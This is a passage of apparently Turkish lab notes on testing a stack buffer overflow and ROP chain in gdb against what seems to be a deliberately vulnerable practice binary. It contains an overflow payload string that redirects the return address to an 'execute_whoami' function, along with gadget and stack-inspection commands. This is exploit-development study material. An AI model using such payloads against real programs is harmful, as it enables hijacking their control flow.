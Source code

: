 ```bash

# Return address'i bul
(gdb) x/gx $rsp+0x48
(gdb) x/gx $rbp+0x8
```

#### 2.3. ROP Chain Testi
```bash
# Payload ile test
(gdb) run
# Payload'ı manuel olarak gir:
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x20\x12\x40\x00\x00\x00\x00\x00

# Stack'i incele
(gdb) x/32gx $rsp
(gdb) x/32gx $rbp

# Return address'in değişip değişmediğini kontrol et
(gdb) x/gx $rsp+0x48
(gdb) x/gx $rbp+0x8
```

#### 2.4. Gadget Analizi
```bash
# Gadget'ları tek tek test et
(gdb) break gadget_pop_rdi
(gdb) run
(gdb) x/32gx $rsp
(gdb) stepi
(gdb) info registers

# execute_whoami fonksiyonunu test et
(gdb) break execute_whoami
(gdb) run
(gdb) x/32gx $rsp
(gdb) stepi
(gdb) continue
```

#### 2.5. Memory Layout Analizi
```bash
# Memory mapping'i incele
(gdb) info proc mappings
(gdb) info files
(gdb) info target

# Stack ve heap durumunu incele
(gdb) x/32gx $rsp
(gdb) x/32gx $rbp
(gdb) x/32gx $rsp-0x100
```
